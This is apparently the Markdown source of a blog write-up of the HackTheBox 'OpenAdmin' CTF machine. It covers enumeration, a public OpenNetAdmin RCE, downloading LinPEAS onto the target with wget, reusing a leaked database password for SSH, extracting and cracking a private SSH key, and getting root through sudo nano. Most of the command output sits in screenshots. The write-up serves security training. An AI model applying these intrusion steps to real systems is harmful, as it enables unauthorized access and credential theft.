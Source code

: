 ```yaml
---
title: 'HackTheBox - [CTF] OpenAdmin'
summary: "Writeup of the HackTheBox's OpenAdmin CTF."
---
```


![banner](/blog/hackthebox-ctf-openadmin/banner.png)

Ready for a new machine? Let's start with open ports enumeration:

![nmap](/blog/hackthebox-ctf-openadmin/nmap.png)

As a result, we can see that there is a Apache webserver on port 80:

![apache](/blog/hackthebox-ctf-openadmin/apache.png)

Let's run **dirbuster** against the webserver to see if we can find some interesting directory:

![dirbuster](/blog/hackthebox-ctf-openadmin/dirbuster.png)

So we can see that there is a **/ona/** and **/ona/login.php** directories that seems interesting:

![ona](/blog/hackthebox-ctf-openadmin/ona.png)

![ona login webpage](/blog/hackthebox-ctf-openadmin/ona-login.png)

**OpenNetAdmin** is a Network Management application working with a centralized AJAX web interface.
So this application is installed on the webserver, and the version installed is not the latest one, it's the **version 18.1.1**.

By searching a exploit for this version on google we can find a **Remote Code Execution** exploit really quickly here:
https://www.exploit-db.com/exploits/47691.

![exploit](/blog/hackthebox-ctf-openadmin/exploit.png)

We can now execute some commands on the system, but it's very limited.
We have to find a way to gain access to a not restricted shell.

Let's use **LinPEAS**, it's a really useful script that searh for possible paths to escalate privileges on Linux,
the script is available here: https://github.com/peass-ng/PEASS-ng.

To download the script on the system we just have to execute this command:

```shell
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
```

And then, this command to execute it and store the results in a text file:

```shell
./linpeas.sh -a > linpeas_result.txt
```

After searching in the linpeas_result.txt file we can see that there is an interesting file who contain this line:
**'db_passwd' => 'n1nj4W4rri0R!'**.

![first password](/blog/hackthebox-ctf-openadmin/first-password.png)

Let's open this file to see exactly what it contain: **/var/www/ona/local/config/database_settings.inc.php**.
It seems that we find database credential for the **ona_sys** user.

![db creds](/blog/hackthebox-ctf-openadmin/db-creds.png)

But after trying to connect to mysql with 10.10.10.171 host, it seems like it's not possible to connect to mysql.
So maybe this password is used for something else... Let's see the users on the system:

![users](/blog/hackthebox-ctf-openadmin/user.png)

Ok so there is two users on the system, we can try to use the password we find on the user jimmy:

![jimmy](/blog/hackthebox-ctf-openadmin/jimmy.png)

Bingo, we finally have a SSH shell with the user jimmy! But what we want is to have access to a shell with root privilege.

Once again, let's use **LinPEAS** to see what we can find:

![hash](/blog/hackthebox-ctf-openadmin/hash.png)

It seems that LinPEAS found an interesting hash in the file **/var/www/internal/index.php**, let's open it:

![hash 2](/blog/hackthebox-ctf-openadmin/hash2.png)

This look like a connection page, the username and the **sha512** hash are hardcoded,
and once the is established there is a redirection to the main.php page.

![main](/blog/hackthebox-ctf-openadmin/main.png)

The main.php page seems to execute a cat on the **/home/joanna/.ssh/id_rsa** file,
so it give the private SSH key of the joanna user. Now the challenge is to access this connection page index.php.

So now that we have a hash let's crack it, for this hash we can directly crack it on https://crackstation.net/:

![crack hash](/blog/hackthebox-ctf-openadmin/crack-hash.png)

Let's list all the open ports on the system:

![netstat](/blog/hackthebox-ctf-openadmin/netstat.png)

The port 52846 is open on localhost. We can do a curl on it to see what it is.

![curl](/blog/hackthebox-ctf-openadmin/curl.png)

This is the index.php connection page that we just found earlier in the internal directory.
So we just have to do a curl on the main.php page to get the SSH key.

![ssh key](/blog/hackthebox-ctf-openadmin/ssh-key.png)

It's working, we now have the joanna's SSH privaye key. With this key we can have a SSH shell with user joanna.
Let's transfer this key on our computer with **scp** command, and let's crack it with **john**.

![ssh2john](/blog/hackthebox-ctf-openadmin/ssh2john.png)

![john crack](/blog/hackthebox-ctf-openadmin/john-crack.png)

John find that the passphrase of the key is: **bloodninjas**. So let's try to connect to ssh with user joanna using this key.
First, we need to change the .ssh config file to match with this new key,
and we have to change the SSH key file permission to **600**.

![ssh config](/blog/hackthebox-ctf-openadmin/ssh-config.png)

Then we can connect:

![joanna](/blog/hackthebox-ctf-openadmin/joanna.png)

Now we have to gain access to a shell with root privilege.
Let's find which commands current user is allowed with sudo, using the **sudo -l** command:

![sudo -l command result](/blog/hackthebox-ctf-openadmin/sudo-l.png)

Joanna is allowed to run nano on the file **/opt/priv** with sudo and without password needed.
Here we can find an exploit using nano and sudo: https://gtfobins.github.io/gtfobins/nano/.

![nano exploit](/blog/hackthebox-ctf-openadmin/nano-exploit.png)

Bingo! Machine rooted!

![root](/blog/hackthebox-ctf-openadmin/root.png)
